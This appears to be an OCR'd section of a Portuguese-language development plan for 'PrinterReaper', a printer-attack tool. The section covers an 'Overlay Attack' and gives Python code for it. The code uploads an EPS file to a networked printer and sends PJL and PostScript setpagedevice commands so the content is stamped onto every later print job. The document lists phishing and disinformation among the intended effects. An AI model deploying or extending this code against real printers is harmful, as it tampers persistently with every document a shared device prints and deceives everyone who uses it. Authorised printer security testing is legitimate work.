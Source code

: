 ```python
            files.append(match.group(1))
    return files
```

### ❌ 5.4 Overlay Attack (FALTANDO) 🔴
**Descrição**: Adicionar conteúdo visível em todos os documentos impressos  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Watermark, phishing, desinformação  
**Risco**: CRÍTICO - Manipulação de documentos

**Implementação**:
```python
def do_overlay(self, arg):
    """Overlay attack - add watermark to all print jobs"""
    if not arg:
        output().errmsg("Usage: overlay <eps_file>")
        output().info("Creates overlay that will be printed on all documents")
        output().info("Example: overlay watermark.eps")
        return
    
    # Read overlay file (must be EPS format)
    if not os.path.exists(arg):
        output().errmsg(f"File not found: {arg}")
        return
    
    overlay_data = file().read(arg)
    if not overlay_data:
        return
    
    output().warning("Installing overlay - will affect ALL print jobs!")
    
    # Upload overlay to printer
    overlay_path = "0:/overlay.eps"
    size = self.put(overlay_path, overlay_data)
    
    if size == c.NONEXISTENT:
        output().errmsg("Failed to upload overlay")
        return
    
    output().info(f"Overlay uploaded to {overlay_path}")
    
    # Configure printer to use overlay (varies by manufacturer)
    # HP method
    self.cmd("@PJL SET OVERLAY=ON")
    self.cmd(f"@PJL SET OVERLAYFILE=\"{overlay_path}\"")
    
    # Alternative: PostScript setpagedevice
    ps_config = """
    %!PS-Adobe-3.0
    << /Install {
        (%s) run
    } >> setpagedevice
    """ % overlay_path
    
    self.put("0:/config.ps", ps_config.encode())
    self.cmd("@PJL ENTER LANGUAGE=POSTSCRIPT")
    self.send(ps_config.encode())
    self.cmd("@PJL RESET", False)
    
    output().info("Overlay installed successfully")
    output().warning("All future print jobs will include the overlay!")
```
